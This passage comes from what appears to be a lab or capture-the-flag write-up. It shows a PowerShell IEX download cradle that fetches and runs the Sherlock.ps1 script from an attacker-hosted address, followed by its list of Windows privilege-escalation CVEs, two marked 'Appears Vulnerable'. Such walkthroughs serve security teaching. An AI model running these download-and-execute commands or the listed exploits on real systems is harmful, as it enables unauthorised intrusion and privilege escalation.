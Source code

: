 Then I’ll use a Python HTTP server to host a copy, and execute it the same way I got a shell:

```
PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                   
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable
```